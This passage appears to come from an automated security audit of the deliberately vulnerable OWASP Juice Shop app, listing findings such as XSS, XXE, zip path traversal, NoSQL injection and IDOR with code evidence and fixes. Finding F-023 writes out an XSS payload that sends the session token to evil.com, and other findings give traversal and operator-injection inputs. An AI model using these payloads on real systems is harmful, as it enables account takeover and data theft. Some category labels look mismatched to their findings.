        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-075](#m-075) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:1`

**Issue:** The build stage base image 'node:24' is referenced by tag only. A malicious or compromised publisher can silently retag 'node:24' to point to a different image layer, causing every subsequent build to use attacker-controlled code without any visible change to the Dockerfile.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-076](#m-076) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `package-lock.json:1`

**Issue:** No `package-lock.json` is committed to the repository. Each 'npm install' run resolves potentially different transitive dependency versions, making supply-chain attacks via version drift undetectable and build reproducibility impossible.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-077](#m-077) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Insertion of Sensitive Information into Externally-Accessible File

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `ftp/acquisitions.md:1`

**Issue:** `ftp/` is served via `serve-index` middleware with no authentication. The directory contains `acquisitions.md` (labelled "CONFIDENTIAL - Do Not Distribute"), `incident-support.kdbx` (a KeePass password database), `coupons_2013.md.bak`, and `eastere.gg`.

Any unauthenticated HTTP GET to `/ftp/acquisitions.md` returns the confidential M&A document. Confidential business documents and potentially credential-bearing files are available to unauthenticated users without any HTTP authentication.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ◌ ambiguous - `ftp/acquisitions.md` opens with `# Planned Acquisitions` and the label "This document is confidential! Do not distribute!", yet the directory is publicly served with no auth guard.

```markdown
// ftp/acquisitions.md:1
# Planned Acquisitions

> This document is confidential! Do not distribute!
```

**Fix:** ❷ [M-079](#m-079) — Restrict access to the ftp/ directory behind authentication or remove sensitive files from the publicly served path

**Classification:** Cryptographic Failures · [CWE-538](https://cwe.mitre.org/data/definitions/538.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** `lib/insecurity.ts:43` defines `export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')`. This function is used to hash passwords before storage (`models/user.ts:77`) and before comparison in the login query (`routes/login.ts:34`).

`MD5` is a fast cryptographic hash with no work factor, and the absence of a per-user salt means that identical passwords produce identical hashes. Database dump obtained via SQLi or filesystem access yields plaintext passwords for all users in minutes using freely available `MD5` rainbow tables.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `lib/insecurity.ts:43` computes `crypto.createHash('md5')` with no salt; `models/user.ts:77` stores the result as the password field.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-080](#m-080) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Error Message Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/fileUpload.ts:87`

**Issue:** When XML upload parsing fails or succeeds, the handler at `routes/fileUpload.ts:87` includes `utils.trunc(xmlString, 400)` - up to 400 characters of the parsed XML document - in the `410 Gone` error message returned to the client. For a successful XXE that exfiltrates `/etc/passwd`, the first 400 characters of the exfiltrated file content are echoed back in the HTTP error response body.

An attacker deliberately uploads an XML file with an external entity pointing to a sensitive local file and reads the reflected content directly from the error response. Attacker reads up to 400 bytes of arbitrary local files (including `/etc/passwd`, server config files) per request via reflected XXE output in the error response.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400) + ...))` at line 87 includes parsed document content in the client-facing error.

```typescript
// routes/fileUpload.ts:87
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
        res.status(410)
        next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400) + ' (' + file.originalname + ')'))
      } catch (err: unknown) {
        const errorMessage = err instanceof Error ? err.message : String(err)
```

**Fix:** Replace developer error pages with a generic message in production responses → ❷ [M-081](#m-081) — Return generic error messages to clients

**Classification:** Unauthenticated Management Plane · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:281`

**Issue:** `app.use('/support/logs', serveIndexMiddleware, serveIndex('logs', ...))` at `server.ts:281` and `app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', ...))` at line 277 expose full directory listings and file download with zero authentication. The `logs/` directory contains daily Morgan `access.log.YYYY-MM-DD` files with the full `combined` format including all request paths, query strings (which include JWT tokens in some routes), and client IPs.

The `encryptionkeys/` directory contains `jwt.pub` and potentially other key material. Unauthenticated attacker downloads access logs revealing all user request patterns including tokens embedded in query strings, and retrieves the JWT public key enabling signature verification bypass preparation.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `serveIndex('logs', ...)` and `serveIndex('encryptionkeys', ...)` are registered without any preceding authentication middleware at lines 277-283.

```typescript
// server.ts:281

  /* /logs directory browsing */ // vuln-code-snippet neutral-line accessLogDisclosureChallenge
  app.use('/support/logs', serveIndexMiddleware, serveIndex('logs', { icons: true, view: 'details' })) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
  app.use('/support/logs', verify.accessControlChallenges()) // vuln-code-snippet hide-line
  app.use('/support/logs/:file', serveLogFiles()) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
```

**Fix:** ❷ [M-082](#m-082) — Require authentication and admin role check before `/support/logs` and `/encryptionkeys` routes

**Classification:** Unauthenticated Management Plane · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** An authenticated attacker submits concurrent POST `/b2b/v2/orders` requests with an infinite-loop `orderLinesData` payload (e.g. `while(true){}`). Each request causes `vm.runInContext` to block the `Node.js` event loop for the full 2-second timeout window.

`Node.js` single-threaded execution means a window of 5 concurrent blocked requests occupies the event loop for 10 seconds per cycle. Complete application-wide denial of service for the duration of the attack; all HTTP requests (not just B2B) queue behind the blocked event loop.

**Evidence:** ✓ verified - `vm.runInContext` with `{ timeout: 2000 }` runs synchronously on the main Node\.js thread with no per-IP request throttle on the b2b route, enabling sustained event-loop occupancy from a single client.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-083](#m-083) — Offload CPU-bound work and bound execution time

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** With `noent: true`, libxmljs2 will attempt to expand deeply nested entity references before the VM timeout fires. A billion-laughs XML payload (exponentially nested `&lol;` entities) causes the parser to attempt allocation of gigabytes of memory during entity expansion before the 2-second `vm.runInContext` timeout can interrupt it.

`Node.js` memory allocations inside a native C library (libxml2 underlies libxmljs2) may not be catchable by the JavaScript timeout, leading to process OOM. An unauthenticated attacker can crash or temporarily OOM the `Node.js` process by uploading a billion-laughs XML file, denying service to all users.

**Evidence:** ✓ verified - `routes/fileUpload.ts:83` parses XML with `noent:true` inside a 2-second VM timeout; native C-layer memory allocation from entity expansion can exhaust Node\.js heap before the JS timeout fires.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-084](#m-084) — Bound parser and decompression resource limits

**Classification:** Error Information Disclosure · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Client-Side-Only Role Check Angular Route

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/app.guard.ts:53`

**Issue:** The `AdminGuard` decodes the JWT from `localStorage` client-side and checks `payload.data.role === roles.admin`. This guard is the only enforcement mechanism protecting the `/administration` route in `app.routing.ts`:65.

Because the JWT is decoded without signature verification (`jwtDecode` simply base64-decodes the payload - it does not call `jwt.verify()`), an attacker can craft a fake JWT with `{"data":{"role":"admin"}}` and store it in `localStorage`. Client-side admin guard bypass allows unauthenticated/unprivileged users to render the administration view; combined with the admin-panel XSS vectors (`administration.component.ts:60`,78) this can lead to stored XSS triggering in the admin context.

**Evidence:** ✓ verified - `app.guard.ts:53` uses `jwtDecode` (not `jwt.verify`) to read the role claim - no signature is checked - and the decoded role is the sole gate on the administration route.

**Fix:** ❷ [M-085](#m-085) — Remove client-side role claim trust from Angular guards and enforce authorization server-side on every API call

**Classification:** Broken Authentication · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Path Traversal

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/fileUpload.ts:44`

**Issue:** The zip extraction loop at `routes/fileUpload.ts:40-49` resolves each entry's path with `path.resolve('uploads/complaints/' + fileName)` and checks `absolutePath.includes(path.resolve('.'))`. This check only verifies the path contains the current working directory string - it does not verify the path stays within `uploads/complaints/`.

An entry named `../../ftp/legal.md` resolves to a path that still includes `path.resolve('.')` as a prefix (since the cwd is the project root), and the check passes. Attacker writes attacker-controlled file content to arbitrary paths within the project root (e.g. overwriting server config, FTP files, or Angular frontend files) leading to persistent code execution or data tampering.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `if (absolutePath.includes(path.resolve('.')))` at line 44 performs a prefix-substring check that passes for traversal paths like `<cwd>/ftp/legal.md`; the vuln annotation `fileWriteChallenge` confirms the traversal is reachable.

```typescript
// routes/fileUpload.ts:44
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❷ [M-087](#m-087) — Constrain file paths to a safe base directory

**Classification:** Server-Side Request Forgery · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Improper Access Control

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `server.ts:369`

**Issue:** `// app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369` has the authorization middleware commented out. `finale.resource()` auto-generates a PUT handler for `/api/Products/:id` with no authentication guard.

Any unauthenticated caller can `PUT /api/Products/1` with a modified `price`, `description`, or `image` field and the change is persisted to the database. Unauthenticated attacker modifies any product record including price, description, and image URL; enables stored XSS, business logic bypass, and price manipulation.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - `// app.put('/api/Products/:id', security.isAuthorized())` at line 369 - authorization guard is commented out with the annotation `vuln-line changeProductChallenge`; the finale auto-route is still active.

```typescript
// server.ts:369
  /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
  app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  app.delete('/api/Products/:id', security.denyAll())
  /* Challenges: GET list of challenges allowed. Everything else forbidden entirely */
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❷ [M-088](#m-088) — Restore authorization middleware on PUT `/api/Products/:id` and require admin role for product modification

**Classification:** Broken Access Control · [CWE-284](https://cwe.mitre.org/data/definitions/284.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:19`

**Issue:** POST `/file-upload` is registered in `server.ts` at line 309 with the middleware chain: `uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload`. No `isAuthorized()` or `security.appendUserId()` guard appears in this chain.

Any unauthenticated HTTP client can POST a multipart file - including an XML with an XXE payload, a zip containing a path-traversal entry, or a YAML bomb - without holding a valid JWT. An unauthenticated attacker can trigger XXE file-read, zip-slip write, or YAML-bomb DoS without any account or token.

**Evidence:** ✓ verified - `server.ts:309` registers POST `/file-upload` with no `isAuthorized()` or `appendUserId()` middleware, while `server.ts:312` shows the pattern used on `/rest/memories`.

```typescript
// routes/fileUpload.ts:19
import * as utils from '../lib/utils'

function ensureFileIsPassed ({ file }: Request, res: Response, next: NextFunction) {
  if (file != null) {
    next()
```

**Fix:** ❷ [M-089](#m-089) — Add isAuthorized JWT guard to POST `/file-upload`

**Classification:** Broken Access Control · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/Services/request.interceptor.ts:13`

**Issue:** The HTTP interceptor reads the JWT from `localStorage.getItem('token')` and attaches it as `Authorization: Bearer` on every outgoing request. The `oauth.component.ts:51` and `login.component.ts` both write the token to `localStorage`.

Because `localStorage` is accessible to any JavaScript running on the origin (not restricted to same-site or `httpOnly`), any XSS payload - including the four confirmed `bypassSecurityTrustHtml` vectors (angular-spa-002 through angular-spa-005) - can exfiltrate the JWT with a single `localStorage.getItem('token')` call. Session token exfiltration via any of the four confirmed XSS vectors; attacker replays the JWT to the REST API, gaining persistent authenticated access until token expiry.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `request.interceptor.ts:13` reads the JWT from `localStorage`; `oauth.component.ts:51` writes it there - `localStorage` is fully readable by any same-origin script including XSS payloads.

**Fix:** ❷ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/recycles.ts:14`

**Issue:** `routes/recycles.ts:14` passes `JSON.parse(req.params.id)` directly as the `where.id` value in a Sequelize `findAll()`. An attacker can send `id` as a JSON object such as `{"$gt": -1}` or, via Sequelize's `Op` aliases, `{"gte": 0}`.

Depending on the Sequelize version's operator alias configuration, this produces `WHERE id >= 0`, returning all recycling records regardless of ownership. Attacker retrieves every recycle record for all users, or forces queries that bypass the ID filter entirely.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `routes/recycles.ts:14` uses `JSON.parse(req.params.id)` as the `where` value, allowing an attacker to inject Sequelize operator objects.

```typescript
// routes/recycles.ts:14
  RecycleModel.findAll({
    where: {
      id: JSON.parse(req.params.id)
    }
  }).then((Recycle) => {
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-070](#m-070) — Use parameterized database queries

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/recycles.ts:14`

**Issue:** `routes/recycles.ts:14` calls `RecycleModel.findAll({ where: { id: JSON.parse(req.params.id) } })`. The `Recycles` table has a `UserId` column (declared in `models/recycle.ts:21`) that maps each record to its owner, but the route does not constrain the query to `UserId: req.user.data.id`.

Any authenticated user can request recycling records belonging to other users by iterating numeric IDs, or retrieve all records at once by submitting an object payload that bypasses the ID filter (see data-layer-004). Authenticated attacker enumerates all recycling records for all users, exposing home addresses (`AddressId`) and pickup schedules.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `routes/recycles.ts:14` queries `RecycleModel` by `id` only; the `UserId` ownership column defined in `models/recycle.ts:21` is never included in the WHERE clause.

```typescript
// routes/recycles.ts:14
  RecycleModel.findAll({
    where: {
      id: JSON.parse(req.params.id)
    }
  }).then((Recycle) => {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-086](#m-086) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/memory.ts:24`

**Issue:** At `routes/memory.ts:16`, the `UserId` field of the new memory record is set from `req.body.UserId`. The `security.appendUserId()` middleware at `server.ts:312` does write the authenticated user's ID to `req.body.UserId`, but it does not prevent the client from supplying a different value in the request body that overrides it after parsing.

Specifically, if the JSON body is parsed before `appendUserId()` runs, then `appendUserId()` clobbers the client value - however, if a client sends `UserId` as a multipart field (the route uses `uploadToDisk.single('image')` so multipart is expected), `req.body.UserId` is the multipart-parsed value from the client. Any unauthenticated user can retrieve all stored memory images and their associated user account data (via UserModel join) by calling GET `/rest/memories`.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `routes/memory.ts:24` performs MemoryModel.findAll({ include: [UserModel] }) with no UserId filter, exposing all users' memory records to any unauthenticated caller.

```typescript
// routes/memory.ts:24
export function getMemories () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const memories = await MemoryModel.findAll({ include: [UserModel] })
    res.status(200).json({ status: 'success', data: memories })
  }
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-090](#m-090) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Data disclosure

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Data Layer  ·  **Location:** `data/static/challenges.yml:1381`

**Issue:** Data in transit between client and server, or between internal services, is transmitted over unencrypted HTTP rather than HTTPS/TLS. A network-positioned attacker (e.g. on shared Wi-Fi, corporate proxy, or compromised router) can passively capture session tokens, credentials, and PII using standard packet capture tools.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Credentials or session material cross the wire over a clear-text channel.

```yaml
// data/static/challenges.yml:1381
  name: 'CSRF' # FIXME No e2e test automation! No longer works in Chrome >=80 and Firefox >=100 or other latest browsers!
  category: 'Broken Access Control'
  description: 'Change the name of a user by performing Cross-Site Request Forgery from <a href="http://htmledit.squarefree.com">another origin</a>.'
  difficulty: 3
  hints:
```

**Fix:** Force TLS on every transport channel and reject downgrades → ❷ [M-104](#m-104) — Data disclosure through cleartext transport · ❷ [M-105](#m-105) — Architecture review: validate Data disclosure through cleartext transport

**Classification:** Cryptographic Failures · [CWE-319](https://cwe.mitre.org/data/definitions/319.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Cross-Site Request Forgery (CSRF)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/login/login.component.ts:134`

**Issue:** The OAuth authorization URL constructed (`response_type=token&scope=email&redirect_uri=${redirectUri}`) does not include a `state` parameter. RFC 6749 Section 10.12 requires the `state` parameter to prevent CSRF on the OAuth redirect.

An attacker can initiate their own OAuth flow, intercept the redirect URL, and inject it into a victim's browser via a CSRF attack - causing the victim's session to be bound to the attacker's OAuth token. CSRF on OAuth callback allows attacker to bind victim's browser session to attacker-controlled identity, enabling session fixation and account monitoring.

**Root cause:** A permissive CORS policy plus missing anti-CSRF tokens let any external page issue authenticated state-changing requests in the victim's session.

**Evidence:** ✓ verified - `login.component.ts:134` constructs the OAuth redirect URL without a `state` parameter, leaving the callback vulnerable to CSRF.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ❷ [M-066](#m-066) — Add anti-CSRF protection to state-changing requests

**Classification:** OAuth / OIDC Misconfiguration · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** The `parseAuthToken()` method reads `payload.data.lastLoginIp` from the JWT stored in `localStorage` and wraps it in `bypassSecurityTrustHtml('<small>' + lastLoginIp + '</small>')`. The value originates from the backend - specifically the IP address recorded at last login, which is derived from `X-Forwarded-For` or `RemoteAddress`.

An attacker who can control the `X-Forwarded-For` header on the login request (e.g. through a proxy or by sending a crafted login request) can inject an XSS payload such as `<script>document.location='https://evil.com?t='+localStorage.token</script>` that will execute whenever the victim visits their profile page. Session token exfiltration from `localStorage` for the targeted user when they view their last-login IP; targeted stored XSS with attacker-controlled IP via header injection.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `last-login-ip.component.ts:39` calls `bypassSecurityTrustHtml` with a server-derived IP address string, rendering it as raw HTML in the user's profile.

```typescript
// frontend/src/app/last-login-ip/last-login-ip.component.ts:39
      if (payload.data.lastLoginIp) {

        this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)
      }
    }
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-067](#m-067) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/track-result/track-result.component.ts:48`

**Issue:** The `ngOnInit` method sets `this.results.orderNo = this.sanitizer.bypassSecurityTrustHtml('<code>' + results.data[0].orderId + '</code>')`. The `orderId` is fetched from the backend based on the `?id=` query parameter.

If an attacker can create or manipulate an order record whose `orderId` contains HTML, the payload will be rendered unsanitized in the tracking page of any user who opens that tracking link - including customer service staff. Stored XSS in the order tracking page; can target unauthenticated visitors or redirect authenticated users to steal their session tokens.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `track-result.component.ts:48` wraps a backend-returned `orderId` string in `bypassSecurityTrustHtml`, inserting it directly into the DOM as trusted HTML.

```typescript
// frontend/src/app/track-result/track-result.component.ts:48
    this.trackOrderService.find(this.orderId).subscribe((results) => {

      this.results.orderNo = this.sanitizer.bypassSecurityTrustHtml(`<code>${results.data[0].orderId}</code>`)
      this.results.email = results.data[0].email
      this.results.totalPrice = results.data[0].totalPrice
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-068](#m-068) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (11)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Missing Authentication

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/Services/socket-io.service.ts:21`

**Issue:** The `SocketIoService` constructor calls `io(window.location.origin, { path: ... })` with no authentication credentials - no `auth: { token: localStorage.getItem('token') }` option is passed.

Unauthenticated WebSocket access allows spoofing of authenticated events and potential bypass of challenge verification logic; XSS payloads can emit arbitrary socket events on behalf of a victim.

**Evidence:** ✓ verified - `socket-io.service.ts:21` calls `io()` without passing an `auth` option containing the JWT, establishing an anonymous Socket\.IO connection for all users including unauthenticated visitors.

**Fix:** ❸ [M-091](#m-091) — Pass JWT in Socket\.IO auth option and validate on the server at handshake time

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:17`

**Issue:** When a B2B order is submitted to POST `/b2b/v2/orders`, the application logs only the HTTP access record via morgan (method + path + status) but writes no structured audit event containing the JWT subject (caller identity), the `cid` (client ID), or the `orderLinesData` payload. If an attacker exploits the sandbox-escape (b2b-api-001) or places fraudulent orders using a forged JWT (b2b-api-003), there is no forensic record of what payload was submitted or whose identity was used.

Forensic investigation after a breach cannot reconstruct attacker commands, affected orders, or the identity of the forged JWT subject, preventing effective incident response and meeting compliance audit requirements.

**Evidence:** ✓ verified - `routes/b2bOrder.ts` contains no call to `logger`, `audit`, or structured log sink; the only instrumentation is the morgan access log via `server.ts:338` which does not capture request bodies.

**Fix:** ❸ [M-093](#m-093) — Add security audit logging

**Classification:** Broken Access Control · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:75`

**Issue:** Neither `routes/fileUpload.ts`, `routes/profileImageFileUpload.ts`, `routes/profileImageUrlUpload.ts`, nor `routes/memory.ts` emit a structured security log entry for file upload attempts - successful or failed. Metrics counters in `routes/metrics.ts` track upload volume by MIME type, but metrics are not an audit trail: they record no actor identity, source IP, uploaded filename, or outcome.

Post-incident forensic analysis cannot determine which actor uploaded a malicious file, when it occurred, or what data was exfiltrated, preventing breach attribution.

**Evidence:** ✓ verified - `routes/fileUpload.ts` contains no logger.info/warn/error calls for file upload events; `routes/metrics.ts` records only aggregate counters (line 59) with no actor identity.

